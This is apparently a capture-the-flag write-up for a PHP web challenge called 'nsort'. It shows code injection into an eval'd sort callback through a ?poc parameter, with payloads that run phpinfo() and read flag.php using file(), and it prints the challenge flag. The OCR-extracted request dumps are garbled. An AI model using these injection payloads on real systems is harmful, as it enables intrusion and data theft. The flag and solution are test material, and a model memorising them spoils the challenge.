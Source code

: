 # nsort
> Can you escape the sandbox? Do you have all the needed info?

## About the Challenge
We were given a static website (There are no images, no forms, only texts)

```
🚩 Whoops! Looks like the proof-of-concept (poc) is missing! 🔍🧐 Don't worry, it's waiting for you in flag.php! Happy coding! 🤓💻 #MissingPOC #FlagHunt #PHPDev #missingpocinget
```

## How to Solve?
If we read the text again, it looks like we need to add `?poc` parameter in the URL and voilà! We got an error output


[Image extracted text: GET
[?poc= HTTP/1.1
HTTP/1.1
200
OK
2
Host:
34.159.182.195:31002
2
Date:
Sun,
22
Oct
2023
13:56:43
GMT
3
Cache-Control:
max-age-0
3 Server:
Apache
Upgrade-Insecure-Requests:
Accept-Encoding
5 User-Agent:
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
5 Content-Length:
105
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome/118.0.5993.88
6
Connection:
close
Safari/537.36
Content-Type:
text/html;
charset=UTF-8
Accept:
8
text/html,application/xhtmltxml,application/xml;q=0.9, image/avif
image/webp, image/apng
*/*;q-0.8,application/signed-exchange; v=b3;
10
Parse
error:
syntax error,
unexpected
token
in
q=0.7
Ivar/wwwlhtml/index.
php(7)
eval() 'd
code
on
line
Accept-Encoding:
gzip,
deflate,
br
11
Accept-Language:
en-US, en;q-0.9
9
Connection:
close
10
11
Vary:]


Hmm, our input goes into the `eval` function where we have to do Remote Code Execution (RCE). If we read the title again, it looks like the author using `sort` function inside the eval

After finding some reference about the RCE inside `sort` function, I got some useful information on Hacktricks (Thank you carlospolop!)

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#rce-via-usort

And then we need to close some bracket and then running phpinfo function using this payload

```
);}}phpinfo();//
```


[Image extracted text: PHP Version 8.1.18
php
System
Linux C-d119-c5645t-/1666-nsort-8544bb4fdc-W9szx 5.15.107+ #1 SMP Thu Jun 15 09.51.46 UTC 2023 x86_64
Build Date
Apr 14 2023 18.14.56
Build System
Linux 0867e78a6bc8 5.10.0-13-cloud-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64 GNUILinux
Configure Command
Iconfigure' '_~build-x86_64-linux-gnu' '-~with-config-file-path-lusr/localletclphp' '~~with-config-file-scan-
dir-lusrllocalletclphplconf.d' '~~enable-option-checking-fatal' '~~with-mhash' '_~with-pic' '~~enable-ftp' '~~enable-
mbstring' '~~enable-mysqlnd' '~~with-password-argon2' '~~with-sodium-shared' '~~with-pdo-sqlite-lusr' '~~with-
sqlite3-lusr"
'~with-curl' '_~with-iconv' '-~with-openssl' '~~with-readline' '~~with-zlib' '~~disable-phpdbg' '~~with-pear'
with-libdir-liblx86_64-linux-gnu' '~~disable-cgi' '~~with-apxs2' 'build_alias-x86_64-linux-gnu'
Server API
Apache 2.0 Handler
Virtual Directory Support
disabled
Configuration File (php.ini) Path
lusrllocalletclphp
Loaded Configuration File
(none)
Scan this dir for additional .ini files
lusrllocalletclphplconf.d
Additional .ini files parsed
lusrllocalletclphplconf dldocker-php-ext-sodiumini, /usr/localletclphplconf dlmaxsizes ini
PHP API
20210902
PHP Extension
20210902
Zend Extension
420210902]


Yay we can execute PHP commands, but when I checked disable_functions information, almost all PHP functions which are to run OS commands cannot be used.


[Image extracted text: disable_functions
exec,show_source readfile,file_get_contents,fread,fope
n,passthru,shell_exec,system,proc_open;popen,curl_
ex
ec,curl_multi_exec;parse_ini_file,stream_get_contents,r
eadlink
Hicrlau
Otrorc]


To obtain the flag I used a `file()` function to read `flag.php` file 


[Image extracted text: Request
Response
Insp
Pretty
Raw
Hex
5
In
Pretty
Raw
Hex
Render
5
In
Requ
GET
[?poc=
HTTP/1.1
200
0K
);}}slines-file("flag.php" ) ; foreach($lines+astsline) {+echo+sline;
Date: Sat ,
21
Oct
2023
16:27:24
GMT
};l/
HTTP/1.1
3
Server:
Apache
Requ
2
Host:
34.141.39.15:32366
Vary: Accept-Encoding
Cache-Control:
max-age-0
5 Content-Length:
189
Requ
Upgrade-Insecure-Requests:
Connection:
close
5
User-Agent: Mozilla/5.0
(Windows
NT
10.0;
Win64;
x64 )
Content-Type:
text/html;
charset=UTF-8
AppleWebKit/537.36
(KHTML ,
like Gecko)
Chrome/118.0.5993.70
Requ
Safari/537.36
<?php
6 Accept
10
text/html,application/xhtml+xml,application/xml;q-0.9,image/avif ,
11
sflag_f49t7
Requ
image/webp, image/apng,*/*;9-0.8,application/signed-exchange;v=b3;
ctf{38754723ac2ce496f98359fc7f0acdea211269d812a3f4d30e779bc2aae65
q=0.7
65f}"
Resp
Accept-Encod_
gzip,
deflate,
br
12
8 Accept-Language:
en-US, en;q-0.9
13
2>
Connection:
close
14
10
15
Just
when
you
think
you
ve
seen
it
all,
this
person
is
really
11
pushing
the
boundaries
ddi
ling:]


```
CTF{38754723ac2ce496f98359fc7f0acdea211269d812a3f4d30e779bc2aae6565f}
```